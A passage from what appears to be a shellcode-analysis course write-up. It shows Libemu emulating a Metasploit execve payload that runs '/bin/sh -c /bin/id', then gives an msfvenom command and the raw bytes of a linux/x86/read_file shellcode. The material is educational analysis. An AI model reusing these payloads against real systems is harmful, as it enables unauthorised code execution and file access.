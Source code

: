 ```term
execve
int execve (const char *dateiname=00416fc0={/bin/sh}, const char * argv[], const char *envp[]);
[emu 0x0x8205f0 debug ] 0000                            add [eax],al
cpu error error accessing 0x00000004 not mapped

stepcount 15
[emu 0x0x8205f0 debug ] cpu state    eip=0x0041702d
[emu 0x0x8205f0 debug ] eax=0x0000000b  ecx=0x00416fb0  edx=0x00000000  ebx=0x00416fc0
[emu 0x0x8205f0 debug ] esp=0x00416fb0  ebp=0x00000000  esi=0x00000000  edi=0x00416fc8
[emu 0x0x8205f0 debug ] Flags: 
int execve (
     const char * dateiname = 0x00416fc0 => 
           = "/bin/sh";
     const char * argv[] = [
           = 0x00416fb0 => 
               = 0x00416fc0 => 
                   = "/bin/sh";
           = 0x00416fb4 => 
               = 0x00416fc8 => 
                   = "-c";
           = 0x00416fb8 => 
               = 0x0041701d => 
                   = "/bin/id";
           = 0x00000000 => 
             none;
     ];
     const char * envp[] = 0x00000000 => 
         none;
) =  0;
whitecr0wz@SLAE:~/assembly/assignments/Assignment_5/dissect2$
```

#### Conclusion (Shellcode #2)

Interesting, execve is being executed. In addition with this, EBX is being given the value of /bin/sh through the ```PUSH DWORD``` instructions, whereas EDI is receiving the 
value of ```-c```. Even more so, we can comprehend from this output that the following argument ```/bin/id``` is being called from a variable through the instruction ```call 
0x1```, finally pushing the order in reverse and saving the address in ECX. This just shows the real power of Libemu, capable of dissecting a complete shellcode with no issues
within a simple output and even filtering those bytes which would mangle the output.

#### read_file Shellcode (Shellcode #3)

The second shellcode to be analyzed will be one that opens a file and reads it, in this case the one chosen being "./file". 

Generating the shellcode with msfvenom:

```term
root@whitecr0wz:~# msfvenom -p linux/x86/read_file PATH=./file -f c 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] = 
"\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8"
"\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80"
"\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8"
"\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff"
"\xff\x2e\x2f\x66\x69\x6c\x65\x00";
root@whitecr0wz:~#
```
